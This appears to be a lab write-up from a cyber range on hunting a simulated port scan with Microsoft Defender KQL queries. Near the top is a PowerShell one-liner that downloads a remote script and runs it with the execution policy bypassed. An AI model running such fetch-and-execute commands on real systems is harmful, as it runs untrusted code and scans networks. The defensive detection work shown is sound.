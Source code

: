 # Threat Hunt: Sudden Network Slowdown

### Phase 1: Simulating the Trigger Event

To begin this threat hunt, it was necessary to simulate suspicious network activity that would be logged by a security monitoring platform. The goal was to mimic the reconnaissance phase of an attack, specifically a network-wide port scan, which is a common cause of network degradation and a frequent trigger for a security investigation.

The following PowerShell command was executed on a test machine to generate this activity:

```powershell
# This one-line command first downloads a port scanning script...
Invoke-WebRequest -Uri '[https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1](https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1)' -OutFile 'C:\programdata\portscan.ps1';

# ...and then immediately executes it, bypassing the local security policy.
cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\portscan.ps1
```
## Tables Used to Detect IoCs:
| Table Name | Purpose | Official Documentation |
| :--- | :---: | :--- |
| **`DeviceFileEvents`** | Tracks events related to file creation, modification, and deletion on your devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table) |
| **`DeviceProcessEvents`** | Monitors the creation of new processes, like when a program or script starts running. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table) |
| **`DeviceNetworkEvents`**| Records all network activity, including inbound and outbound connections from devices. | [Microsoft Learn Link](https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicenetworkevents-table) |
---
## Related KQL Queries

Below are the KQL queries used in Microsoft Defender XDR to investigate the network slowdown and pinpoint the root cause.

---
#### 1. Initial Discovery: High-Volume Failed Connections
This first query was used to find hosts generating an unusual number of failed network connections, which is a common indicator of a port scan.

```kql
let target_machine = "nemwindows10";
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where DeviceName == target_machine
| where ActionType == "ConnectionFailed"
| summarize ConnectionCount = count() by DeviceName, ActionType, LocalIP
| order by ConnectionCount
```
### 2. Confirming the Port Scan
After observing the failed connections, this query was used to examine the specific traffic and confirm that a sequential port scan was occurring.

```kql
let target_machine = "nemwindows10";
let problematic_LocalIP = "10.0.0.108";
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where DeviceName == target_machine
| where ActionType == "ConnectionFailed"
| where LocalIP == problematic_LocalIP
| project Timestamp, InitiatingProcessFileName, RemoteIP, RemotePort, Protocol
| sort by Timestamp asc
```

### 3. Identifying the Malicious Process
Once the port scan was confirmed, this final query was used to pivot to the process events on the host to identify which script or program launched the attack.

```kql
let target_machine = "nemwindows10";
let Specific_StartDate_UTC = datetime(2025-05-02T05:35:00Z); //May 2nd 5:35 AM UTC time.
let Specific_EndDate_UTC = datetime(2025-05-02T05:40:00Z); //May2nd 5:40 AM UTC time.
DeviceProcessEvents
| where DeviceName == target_machine
| where Timestamp between (Specific_StartDate_UTC .. Specific_EndDate_UTC )
| project Timestamp, ActionType, FileName, ProcessCommandline, AccountName, InitiatingProcessAccountName, InitiatingProcessParentFileName
| sort by Timestamp asc
```
---

## Created By:
- **Author Name**: Jorge Juarez
- **Author Contact**: https://www.linkedin.com/in/jorgejuarez1/
- **Date**: May 2, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `July 8, 2025`  | `Jorge Juarez`   
